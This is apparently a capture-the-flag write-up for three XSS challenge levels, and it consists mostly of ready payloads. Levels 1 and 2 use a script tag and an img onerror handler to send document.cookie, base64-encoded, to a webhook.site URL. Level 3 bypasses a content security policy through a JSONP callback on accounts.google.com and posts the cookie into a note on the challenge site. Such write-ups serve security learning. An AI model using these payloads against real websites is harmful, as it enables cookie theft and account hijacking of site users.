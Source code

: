 ## XSS 1

Level 1 has no protections at all.  
Payload:
```html
<script>
  fetch("https://webhook.site/56132684-a245-4f7c-95ee-25f2484e9bf8/"+ btoa(document.cookie));
</script>
```

## XSS 2

In level 2, script tags are stripped. However, image tags with event handlers can be used instead.  
Payload:
```html
<img
  src="random"
  onerror='fetch("https://webhook.site/56132684-a245-4f7c-95ee-25f2484e9bf8/"+ btoa(document.cookie));'
/>
```

## XSS 3

In level 3, there is a restrictive CSP. However, `*.google.com` is allowed, allowing for JSONP to be exploited.  
Even though we have RCE, we are not done as we are unable to connect to other sites. We can leverage the site itself,
using fetch to create a note.
Payload:
```html
<script
  src='https://accounts.google.com/o/oauth2/revoke?callback=fetch("http://localhost:1238/3/453de579aeb336b827c97c6b71a06903/new",{method: "POST",body:function(){a=new FormData();a.append("title","flag");a.append("content",document.cookie);return new URLSearchParams(a)}()})'>
</script>
```
